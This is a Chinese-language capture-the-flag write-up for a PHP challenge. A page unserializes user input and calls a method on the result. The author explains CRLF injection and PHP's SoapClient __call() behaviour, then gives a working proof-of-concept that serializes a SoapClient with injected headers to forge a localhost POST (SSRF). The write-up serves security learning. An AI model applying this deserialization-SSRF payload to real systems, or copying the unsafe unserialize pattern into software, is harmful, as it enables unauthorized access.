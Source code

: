 > ```
>
> 

index.php

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();

```

127.0.0.1访问flag.php，且传入token=ctfshow

但是试了一下xff发现不行，应该还检测了真实ip

```php
if($_SERVER['REMOTE_ADDR']==='127.0.0.1')
```

可以看到反序列化后会调用`$vip->getFlag();`那么就可以触发原生类SoapClient-的__call()方法，配合CRLF实现ssrf

> [SoapClient与CRLF组合拳 – purplet的博客](http://purplet.top/2020/12/24/soapclient与crlf组合拳/)
>
> [从一道题学习SoapClient与CRLF组合拳_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/110521104)
>
> # CRLF注入攻击
>
> CALF是“回车+换行”（\r\n）的简称，其十六进制编码分别为0x0d和0x0a。
>
> 在HTTP协议中，HTTP header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。
>
> 所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码。CRLF漏洞常出现在Location与Set-cookie消息头中。
>
> # SoapClient
>
> 当调用 SoapClient 类的 __call() 魔术方法的时候，会发送一个 POST 请求，请求的参数由着 SoapClient 类的一些参数决定。

思路如下：构造poc，令vip=类SoapClient，然后调用不存在的getFlag()方法，触发`_call()`,从而发送一个POST请求；符合条件后就会将flag写入flag.txt，访问就能拿到flag

poc：

```php
<?php

$post_string = 'token=ctfshow';

$a = new SoapClient(null, array(
        'uri'=> "http://127.0.0.1/flag.php",
        'location' => 'http://127.0.0.1/flag.php',
        'user_agent'=>"edge\r\nX-Forwarded-For:127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded"."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,
        )
);

echo(urlencode(serialize($a)));

?>
    
```